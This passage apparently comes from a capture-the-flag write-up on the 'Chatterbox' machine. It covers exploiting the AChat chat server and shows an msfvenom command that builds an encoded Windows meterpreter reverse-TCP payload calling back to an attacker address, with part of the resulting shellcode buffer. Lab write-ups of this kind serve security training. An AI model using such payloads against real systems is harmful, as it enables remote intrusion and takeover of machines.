 ![](/img/chatterbox-achat-calc.png)

So we know it works. We'll also notice that AChat dies when the exploit
is run, which is going to make getting onto the actual box a real pain.

### Exploit Chatterbox

#### script + meterpreter - fail

The script comes with shellcode to pop `calc.exe` and an example
`msfvenom` command run to generate it. So it makes sense to use
`msfvenon` to generate a more useful payload. We'll start with
`meterpreter`:



    root@kali# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.157 LPORT=4433 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/unicode_mixed
    x86/unicode_mixed succeeded with size 808 (iteration=0)
    x86/unicode_mixed chosen with final size 808
    Payload size: 808 bytes
    Final size of python file: 3872 bytes
    buf =  ""
    buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
    buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
    ...
